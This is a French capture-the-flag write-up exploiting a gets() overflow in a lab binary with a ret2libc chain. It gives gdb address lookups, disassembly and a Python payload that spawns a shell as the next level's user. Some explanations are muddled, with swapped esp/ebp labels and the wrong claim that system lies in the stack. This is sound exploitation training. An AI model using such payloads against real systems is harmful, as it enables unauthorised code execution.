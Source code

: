 En décompilant l'exécutable , on remarque qu'il y a un appel à `get` donc faille d'un **buffer overflow** possible. En revanche, on remarque que le programme fait un test sur l'adresse de retour et vérifie qu'elle ne se situe pas dans la stack.
```c
if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
    _exit(1);
}
```
On peut donc profiter d'une faille `Ret2libc`, mais en s'assurant que l'adresse de retour ne pointe pas directement sur la fonction `system` qui, elle, se situe dans la stack.

Pour cela, on peut simplement remplacer l'adresse de retour dans la stack par l'adresse de retour de la fonction `p`.

Nous avons donc besoin de 3 adresses :
- `system`
- `"/bin/sh"`
- retour de `p`

On utilise `gdb` pour les determiner :
```
> gdb level2
```

---

**system**
```
> (gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
```
0xb7e6b060
```

**"/bin/sh"**
```
> (gdb) find __libc_start_main,+99999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```
```
0xb7f8cc58
```

**Retour de p**
```
> (gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	    push   %ebp
   0x080484d5 <+1>:	    mov    %esp,%ebp
   0x080484d7 <+3>:	    sub    $0x68,%esp
   0x080484da <+6>:	    mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
```
```
0x0804853e
```

---

Pour trouver la taille du buffer, il nous suffit de connaitre l'adresse de `esp` et l'adresse de `eip`. Ainsi, nous determinerons la taille du buffer par cette équation :
```
buffer = adresse_esp - adresse_ebp
```
On détermine les adresse avec `gdb` :

---

**esp**
```
> (gdb) x $ebp
0xbffff6b0
```
```
0xbffff6b0
```

**ebp**
```
> (gdb) x $esp
0xbffff718
```
```
0xbffff718
```

---

On remplace dans notre équation :
```
buffer = adresse_esp - adresse_ebp
       = 0xbffff718 - 0xbffff6b0
       = 0x50
       = 80 (base 10)
```
Nous devons donc remplir notre buffer avec `80` caractères.

On assemble les adresses avec une commande `python` qu'on redirige dans un fichier :
```
> python -c 'print "A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "OSEF" + "\x58\xcc\xf8\xb7"' > /tmp/command
```
Enfin on redirige le contenu de ce fichier dans l'exécutable `level2` :
```
> cat /tmp/command - | ./level2
```
Nous avons ouvert un shell avec les droits de l'utilisateur `level3`

